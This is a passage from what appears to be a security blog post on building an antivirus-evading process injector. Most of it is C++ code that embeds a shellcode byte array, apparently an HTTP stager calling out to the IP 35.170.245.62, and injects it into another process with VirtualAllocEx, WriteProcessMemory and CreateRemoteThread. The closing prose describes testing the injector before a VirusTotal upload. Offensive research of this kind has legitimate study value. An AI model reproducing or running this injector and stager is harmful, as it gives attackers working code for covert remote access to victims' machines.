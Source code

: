 ```c++
    unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x50\x00\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x48\x38\x68\x75\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x32\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x33\x35\x2e\x31\x37\x30\x2e\x32\x34\x35\x2e\x36\x32\x00\x00\x00\x00\x00";


    memAddr = VirtualAllocEx(hProcess, NULL, dwSize,flAllocationType,flProtect);
    cout << "[+] Memory Allocated at:" << memAddr << "\n";
    
    WriteProcessMemory(hProcess, memAddr, buf, dwSize, &bytesOut);
    cout << "[+] Number of bytes written: " << bytesOut << "\n";

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    return 0;
}
```

Now we can test very quickly before uploading to VT:
<img src="https://blog.spookysec.net/img/Pasted image 20220213003743.png">
Success! Our injector works again. Uploading to VT, we get the following results:
